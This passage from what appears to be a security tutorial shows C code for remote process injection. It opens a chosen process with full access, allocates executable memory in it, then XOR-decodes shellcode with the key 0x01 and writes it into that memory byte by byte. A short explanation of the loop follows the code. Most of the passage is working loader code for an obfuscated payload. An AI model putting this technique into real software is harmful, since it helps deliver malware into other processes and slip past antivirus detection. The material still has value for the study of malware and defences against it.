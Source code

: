      // The PID that you want to use
       int process_id = atoi(argv[1]);
    
      // Declare a new handle as process variable
      // PROCESS_ALL_ACCESS
      HANDLE process = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);
    
      // If the operation succeeded it will return the handle
      if(process){
        printf(&quot;[+] Handle retrieved successfully!\n&quot;);
    
        // We can print it as pointer using printf
        printf(&quot;[+] Handle value is %p\n&quot;, process);
        
        // Allocate space
        // Define the base_address variable which will save the allocated memory address
    	LPVOID base_address;
        base_address = VirtualAllocEx(process, NULL, sizeof(data), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	if(base_address){
    
            printf(&quot;[+] Allocated based address is 0x%x\n&quot;, base_address);
            
            				// Data chars counter
    				int i;
    
    				// Base address counter
    				int n = 0;
    
    
    				for(i = 0; i&lt;=sizeof(data); i++){
    
    					// Decode shellcode opcode
    					char DecodedOpCode = data[i] ^ 0x01;
    
    					// Write the decoded bytes in memory address
    					if(WriteProcessMemory(process, base_address+n, &amp;DecodedOpCode, 1, NULL)){
    
    
    						printf(&quot;[+] Byte wrote sucessfully!\n&quot;);
    
    						// Increase memory address by 1
    						n++;
    					}
    				}
            
    
    	}else{
    		printf(&quot;[-] Unable to allocate memory ...\n&quot;);
    	}
        
      }else{
        printf(&quot;[-] Unable to retrieve process handle\n&quot;);
      }
    
    }
    

This code will write our shellcode in memory after decoding each byte of it
with our key "0x01", as we can see in line #39 I used a for loop to move on
each element of our shellcode, then in line #42 I XORed each element with 0x01
to retrieve the original opcode, and in line #45 I wrote that decoded byte to
a specific location in memory and finally in line #51 I move the n counter
which is the memory counter to the next memory address to decode and write the
opcode to.
